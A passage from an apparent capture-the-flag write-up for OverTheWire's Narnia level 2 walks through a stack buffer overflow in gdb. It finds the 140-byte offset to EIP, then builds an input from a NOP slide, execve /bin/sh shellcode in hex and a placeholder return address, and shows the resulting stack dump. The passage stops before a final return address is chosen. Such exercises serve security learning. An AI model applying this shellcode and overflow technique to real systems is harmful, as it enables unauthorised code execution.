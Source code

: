 ```
(gdb) print 0xffffd6bc-0xffffd630
$1 = 140
```

They are 140 bytes apart. Let's try to overflow the buffer and overwrite the EIP.

```
(gdb) run `python -c 'print("A"*140 + "B"*4)'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /games/narnia/narnia2 `python -c 'print("A"*140 + "B"*4)'`

Breakpoint 1, 0x080484a8 in main ()
(gdb) continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Segmentation faults are good news. We overwrote the buffer with 140 "A's" which got us just to the start of the EIP. The final 4 "B's" are what we actually overwrote the EIP with. We can see we were successful at this as the program tried to jump to address `0x42424242`, which is `BBBB` in hexadecimal.

Now that we know our input string needs to be 144 bytes in length we can start to construct our exploit. The last four bytes of the string will need to be the return address we want to jump to that will run our shellcode. Speaking of which, we'll also need some shellcode. For this exercise we'll reuse the shellcode from the previous level. Let's calculate the length of the shellcode to see how many bytes we have remaining.

```sh
narnia2@melinda:/narnia$ python -c 'print(len("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"))'
25
```

We could fill the rest of the buffer with "A's" and set the return address to the start of the shellcode but we're going to use a NOP slide for the sake of demonstration. A NOP slide allows us to return to anywhere within the slide and then..._slide_ right into our shellcode. It is called a NOP slide because `x\90` is the NOP, or "No Operation", instruction which does nothing except advance the EIP register. When we hit anywhere within the slide we will just keep advancing until will reach our shellcode. Now we just need to find a suitable return address and we can run our exploit.

```
(gdb) run `python -c 'print("\x90"*115 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "B"*4)'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /games/narnia/narnia2 `python -c 'print("\x90"*115 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "B"*4)'`

Breakpoint 1, 0x080484a8 in main ()
(gdb) x/50x $esp
0xffffd590:	0xffffd5a0	0xffffd812	0x00000000	0x00000000
0xffffd5a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd5b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd5c0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd5d0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd5e0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd5f0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd600:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd610:	0x31909090	0x2f6850c0	0x6868732f	0x6e69622f
0xffffd620:	0x5350e389	0xc289e189	0x80cd0bb0	0x42424242
0xffffd630:	0x00000000	0xffffd6c4	0xffffd6d0	0xf7feacca
0xffffd640:	0x00000002	0xffffd6c4	0xffffd664	0x08049768
```